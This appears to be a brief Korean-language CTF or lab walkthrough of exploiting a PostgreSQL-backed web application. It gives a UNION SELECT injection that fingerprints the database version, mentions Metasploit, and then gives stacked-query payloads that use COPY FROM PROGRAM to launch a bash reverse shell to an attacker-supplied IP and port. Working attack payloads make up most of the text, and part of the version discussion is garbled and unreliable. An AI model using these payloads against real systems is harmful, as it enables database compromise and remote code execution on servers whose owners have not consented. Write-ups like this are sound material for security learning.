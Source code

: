 sql injection
#
```
' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
```
이 SQL 문을 사용하면 이 웹 사이트의 백엔드 데이터베이스가 Postgre임을 알 수 있습니다.SQL 버전 11.5. "Google University"에서 어떤 종류의 reverse shell을 얻을 수 있는지 알아보겠습니다. 우리는 Postgre에서 발견된 exploit에 대해 알게 되었다.버전 11.5의 경우 SQL 버전 9.3이 아직 살아 있습니다. * 메타스플로이트를 사용

`![image](https://user-images.githubusercontent.com/61821641/150574663-24469d46-8cb2-4bc2-89ed-fdd4d3af03c9.png)

#
`이어서 reverse shell`

```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/<my ip>/1234 0>&1'''; -- 
```

![image](https://user-images.githubusercontent.com/61821641/150575592-27443005-8908-470b-83ec-0d977f32a386.png)
